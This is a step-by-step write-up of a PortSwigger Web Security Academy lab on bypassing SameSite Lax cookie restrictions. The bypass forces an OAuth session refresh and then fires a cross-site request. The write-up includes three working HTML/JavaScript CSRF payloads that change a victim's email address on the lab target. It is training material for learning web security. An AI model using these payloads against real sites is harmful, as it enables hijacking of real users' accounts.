


[Source](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh)
## Task
The email address change functionality in this lab is vulnerable to CSRF. To solve the task, we need to perform a CSRF attack that will change the victim's email address. We should use the provided exploit server to host our attack.
The lab supports `OAuth` login. We can login using our social media account with the following credentials: `wiener:peter`

> [!info] Note
> SameSite defaults vary across browsers. Since the victim is using Chrome, we recommend also using Chrome (or Burp's built-in Chromium browser) to test the exploit.
## Solution
Go to the task site


Log in as user `wiener` and change email


Intercept the request via `Burp Suite`


Notice that it does not contain any unpredictable tokens. This means that it may be vulnerable to CSRF if we can bypass any `SameSite cookie` restrictions.
Look at the response to the `GET /oauth-callback?code=[...]` request at the end of the `OAuth` flow and see that the site does not explicitly specify any `SameSite` settings when setting session `cookies`. As a result, the browser uses the default `Lax` restriction level.


Now let's move on to `Exploit Server`. Let's use the following template to create a basic CSRF attack to change the victim's email address:
```HTML
<script>
    history.pushState('', '', '/')
</script>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```



We save the exploit and view it ourselves. Now there are two possible options, depending on how much time has passed since we logged in:
1. If more than two minutes have passed, the `OAuth` flow will work again, we will log in again, and the attack will not work. In this case, we repeat this step immediately.
2. If we logged in less than two minutes ago, the attack will be successful, and our email address will indeed change. In `Proxy > HTTP history` we find the `POST /my-account/change-email` request and make sure that our session `cookie` was enabled, despite the fact that it was a cross-site `POST` request.


In the browser, we notice that navigating to the `/social-login` URL automatically starts the full `OAuth` flow. If we still have an active session on the `OAuth` server, this will happen without any interaction.
In `Proxy history`, we see that each time the `OAuth` flow completes, the target site sets a new session `cookie`, even if we were already logged in.


Back to the `Exploit Server`. Modify the `JavaScript` to first refresh the victim's session (by forcing their browser to visit `/social-login`), and then — after a short pause — make a request to change the email address. One possible option:
```HTML
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script>
    window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```


>**Note**  
>We open `/social-login` in a new window so that we don't leave the exploit until the change email request is sent.

We save the exploit and view it ourselves. We notice that the initial request is blocked by the browser pop-up blocker.





However, the CSRF attack is launched after the pause. But it will only work if less than two minutes have passed since our `cookie` was set. If more has passed, the pop-up blocker will not allow the `cookie` to be forcibly updated, and the attack will not work.
We understand that the pop-up is blocked because we did not interact with the page manually. We upgrade the exploit so that the victim clicks on the page, and only after the click the pop-up will open. For example:
```HTML
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```


We test the attack on ourselves again, while monitoring `Proxy history` in `Burp Suite`.


When the browser asks, we click on the page. This starts the `OAuth` flow and gives us a new session `cookie`. After 5 seconds, we see that a CSRF request `POST /my-account/change-email` is sent, which already uses our new session `cookie`.
We go to our account page and make sure that the email address has been changed.


Change the email address in the exploit to one that does not match our own. Send the exploit to the victim.


Click `Store` and `Deliver exploit to victim`. The lab is solved